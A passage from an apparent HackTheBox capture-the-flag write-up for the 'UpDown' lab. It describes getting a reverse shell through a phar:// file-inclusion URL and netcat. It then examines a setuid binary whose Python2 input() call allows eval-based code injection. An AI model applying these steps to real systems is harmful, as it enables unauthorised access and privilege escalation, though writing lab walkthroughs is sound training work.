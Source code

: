 ```
```
Continue like before, put it into a zip archive and upload it.
Remember to open the netcat and visit `http://dev.siteisup.htb/?page=phar://uploads/c37609fba8ab772c12b98dbf4ef02092/rev.wither/rev`

Then we can get the reverse shell as `www-data`

By enumerating all the files of `/var/www/dev` and `/var/www/html`, there is nothing useful from that, there is no config files or database to help us get the certifcation.

But we can direct into `/home/developer`, and we can check the files of `/dev`
```
siteisup  siteisup_test.py

file siteisup
siteisup: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=b5bbc1de286529f5291b48db8202eefbafc92c1f, for GNU/Linux 3.2.0, not stripped

cat siteisup_test.py
import requests

url = input("Enter URL here:")
page = requests.get(url)
if page.status_code == 200:
        print "Website is up"
else:
        print "Website is down"
```
The print calls use space in a way that show this is expecting to run with Python2. But if this is called with Python2, that input will be a major vulnerability.
That’s because in Python2, input takes the input and passes it to eval, and my input isn’t valid python. I can pass it a one liner that will execute and get execution:
![](images/Pasted%20image%2020250206160657.png)

Actually we can not run correctly any of them, they always broken down.
```
www-data@updown:/home/developer/dev$ ./siteisup
./siteisup
Welcome to 'siteisup.htb' application

Enter URL here:http://127.0.0.1
http://127.0.0.1
Traceback (most recent call last):
  File "/home/developer/dev/siteisup_test.py", line 3, in <module>
    url = input("Enter URL here:")
  File "<string>", line 1
    http://127.0.0.1
```